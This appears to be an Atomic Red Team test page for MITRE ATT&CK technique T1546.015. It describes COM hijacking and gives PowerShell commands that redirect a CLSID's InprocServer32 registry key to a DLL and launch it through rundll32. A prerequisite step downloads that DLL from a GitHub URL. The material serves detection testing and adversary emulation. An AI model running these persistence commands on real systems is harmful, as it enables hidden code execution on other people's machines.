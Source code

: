# T1546.015 - Component Object Model Hijacking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/015)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by hijacked references to Component Object Model (COM) objects. COM is a system within Windows to enable interaction between software components through the operating system.(Citation: Microsoft Component Object Model)  References to various COM objects are stored in the Registry. 

Adversaries can use the COM system to insert malicious code that can be executed in place of legitimate software through hijacking the COM references and relationships as a means for persistence. Hijacking a COM object requires a change in the Registry to replace a reference to a legitimate system component which may cause that component to not work when executed. When that system component is executed through normal system operation the adversary's code will be executed instead.(Citation: GDATA COM Hijacking) An adversary is likely to hijack objects that are used frequently enough to maintain a consistent level of persistence, but are unlikely to break noticeable functionality within the system as to avoid system instability that could lead to detection. </blockquote>

## Atomic Tests

- [Atomic Test #1 - COM Hijacking - InprocServer32](#atomic-test-1---com-hijacking---inprocserver32)


<br/>

## Atomic Test #1 - COM Hijacking - InprocServer32
This test uses PowerShell to hijack a reference to a Component Object Model by creating registry values under InprocServer32 key in the HKCU hive then calling the Class ID to be executed via rundll32.exe.

Reference: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/

**Supported Platforms:** Windows


**auto_generated_guid:** 48117158-d7be-441b-bc6a-d9e36e47b52b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| clsid_threading | Threading Model | string | Apartment|
| dllpath | Path to the DLL. | String | $env:TEMP&#92;AtomicTest.dll|
| clsid | Class ID to hijack. | string | {B5F8350B-0548-48B1-A6EE-88BD00B4A5E7}|
| clsid_description | Description for CLSID | string | MSAA AccPropServices|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Value '#{clsid_description}'
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Value #{dllpath}
New-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Name 'ThreadingModel' -Value '#{clsid_threading}' -PropertyType "String"
Start-Process -FilePath "C:\Windows\System32\RUNDLL32.EXE" -ArgumentList '-sta #{clsid}'
```

#### Cleanup Commands:
```powershell
Remove-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL For testing
##### Check Prereq Commands:
```powershell
if (Test-Path #{dllpath}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/AtomicTest.dll" -OutFile "#{dllpath}"
```




<br/>
